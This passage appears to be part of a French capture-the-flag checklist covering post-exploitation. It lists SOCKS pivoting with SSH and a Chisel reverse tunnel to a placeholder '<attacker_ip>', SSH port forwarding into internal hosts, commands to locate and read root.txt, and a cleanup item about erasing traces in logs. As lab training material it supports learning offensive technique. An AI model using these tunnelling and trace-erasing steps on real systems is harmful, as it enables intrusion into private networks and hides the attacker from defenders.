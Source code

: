   - [ ] Configurer un proxy SOCKS
    ```bash
    # Avec SSH
    ssh -D 1080 user@<compromised_host>
    
    # Avec Chisel
    ./chisel server -p 8080 --reverse
    ./chisel client <attacker_ip>:8080 R:socks
    ```
    > *Question*: Comment accéder efficacement aux services internes?
  
  - [ ] Utiliser des techniques de port forwarding
    ```bash
    # SSH port forwarding
    ssh -L 8000:internal_host:80 user@<compromised_host>
    ```
    > *Question*: Quels services internes doivent être exposés pour une exploitation ultérieure?

- [ ] **Extraction du flag root.txt**
  - [ ] Localiser le flag root.txt
    ```bash
    # Linux
    find / -name root.txt 2>/dev/null
    
    # Windows
    dir /s root.txt
    ```
    > *Question*: Où se trouve le flag root.txt?
  
  - [ ] Lire le contenu du flag
    ```bash
    cat /root/root.txt
    ```
    > *Question*: Avez-vous les privilèges nécessaires pour lire le flag?
  
  - [ ] Documenter la méthode d'élévation de privilèges
    > *Question*: Pouvez-vous reproduire l'élévation de privilèges de manière fiable?

- [ ] **Nettoyage (optionnel dans un CTF, mais bonne pratique)**
  - [ ] Supprimer les fichiers uploadés
    ```bash
    rm /tmp/exploit
    ```
    > *Question*: Avez-vous supprimé tous les outils et scripts malveillants?
  
  - [ ] Effacer les traces dans les logs
    ```bash
    # Attention: Dans un CTF, cela peut ne pas être nécessaire ou approprié
    ```
    > *Question*: Quelles traces de votre activité pourraient être visibles?
  